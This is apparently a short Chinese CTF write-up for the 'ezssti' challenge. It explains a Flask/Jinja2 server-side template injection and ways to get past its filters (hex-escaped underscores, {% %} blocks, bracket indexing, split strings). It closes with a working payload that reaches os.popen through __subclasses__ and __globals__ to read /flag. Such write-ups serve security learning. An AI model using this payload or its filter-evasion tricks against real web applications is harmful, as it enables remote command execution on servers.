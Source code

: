 # ezssti

## 考点

python flask的ssti漏洞

## 学习链接

在/hint页面中也给出了，并且介绍的非常详细

https://tttang.com/archive/1698

## 题解

由于过滤了部分内容，所以使用如下的代替：

- 使用`\x5f`代替下划线
- 使用`{% %}`代替`{{}}`
- 使用`[]`代替`.`
- 使用字符串拼接绕过特定字符

最终的思路就是获取`<class 'os._wrap_close'>`然后获取`__init__`中的`__globals__`中的各种os函数

这里使用了`popen`然后将返回值`read`

使用字符串拼接绕过`cat /flag`的限制


```html
?name={% print ''['\x5f\x5fclass\x5f\x5f']['\x5f\x5fmro\x5f\x5f'][-1]['\x5f\x5fsubclasses\x5f\x5f']()[133]['\x5f\x5finit\x5f\x5f']['\x5f\x5fglobals\x5f\x5f']['popen']('ca''t /fla''g')['read']() %}
```